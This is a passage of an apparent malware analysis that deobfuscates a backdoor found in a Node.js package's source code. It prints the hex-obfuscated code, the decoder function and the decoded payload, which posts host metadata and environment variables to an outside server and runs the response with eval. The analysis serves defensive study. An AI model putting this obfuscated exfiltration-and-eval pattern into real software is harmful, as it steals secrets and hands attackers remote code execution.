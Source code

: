 ```javascript
  g('6178696f73'),
  g('706f7374'),
  g('68747470733A2F2F6C6F672D7365727665722D6C6F7661742E76657263656C2E6170702F6170692F6970636865636B2F373033'),
  g('68656164657273'),
  g('782d7365637265742d686561646572'),
  g('736563726574'),
  g('7468656e')
]

module.exports = (...args) => require(hl[1])[[hl[2]]](hl[3], data, { [hl[4]]: { [hl[5]]: hl[6] } })[[hl[7]]](r => eval(r.data)).catch(() => {})
```

#### Breakdown: How the Backdoor Works

- Step 1: It collects sensitive host metadata and environment variables using the os module and process.env. Using the `os` module it extracts the user's MAC addresses, username etc, and using `process.env` gives them access to all the private information available to the NodeJS application.
- Step 2: Obfuscate the attack. One clever piece of the attack was how it obscured the actual URL used for data exfiltration. Instead of hardcoding it, the code used obfuscated hex strings that are decoded at runtime using a function like this:

  ```javascript
  function g (h) { return h.replace(/../g, match => String.fromCharCode(parseInt(match, 16))) }
  ```
  
  Using this technique the attacker hides what is actually in the `hl` array.

  Here’s what the hl array resolves to when decoded:
  ```javascript
  const hl = [
      // 0. g('72657175697265'):
      'require',
      // 1. g('6178696f73'):
      'axios',
      // 2. g('706f7374'):
      'post',
      // 3. g('68747470733A2F2F6C6FD7...702F6170692F6970636B2F373033'):
      'https://log-server-lovat.vercel.app/api/ipcheck/703',
      // 4. g('68656164657273'):
      'headers',
      // 5. g('782d7365637265742d686561646572'):
      'x-secret-header',
      // 6. g('736563726574'):
      'secret',
      // 7. g('7468656e'):
      'then'
  ]
  ```
  Step 3: Now if we substitute the actual values from the hl array into the exported function, it becomes clear what the attacker is doing:

  ```javascript
  module.exports = (...args) => 
  require('axios')['post'](
    'https://log-server-lovat.vercel.app/api/ipcheck/703', 
    data, 
    { 'headers': { 'x-secret-header': 'secret' } }
  )['then'](r => eval(r.data)).catch(() => {});
  ```
  We can see that first the `axios` package is imported which is a popular library for making HTTP requests. Then a `post` request is made the obfuscated URL `https://log-server-lovat.vercel.app/api/ipcheck/703` in `hl[3]`.
  Step 4: Remote Code Execution.
